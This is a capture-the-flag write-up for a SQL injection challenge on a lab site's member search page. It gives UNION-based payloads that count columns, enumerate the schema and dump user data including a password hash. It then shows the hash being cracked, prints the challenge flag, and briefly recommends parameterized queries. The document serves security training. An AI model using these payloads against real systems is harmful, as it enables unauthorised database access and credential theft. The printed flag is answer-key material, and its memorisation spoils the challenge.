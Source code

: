 # SQL INJECTION MEMBERS

## The flag

```
THE FLAG IS : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## How to find it ?

On the page http://{IP_ADDRESS}/index.php?page=member

The search member form may reach an SQL request that looks like this :
SELECT last_name, first_name FROM Users WHERE Id=

- To get the request columns number
1 OR 1=1 UNION SELECT NULL--
-> error
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

- To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
-> user_id = 5
-> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
-> FortyTwo
lower('FortyTwo')
-> fortytwo
sh256('fortytwo')
-> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## How to use it ?

Dumb and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.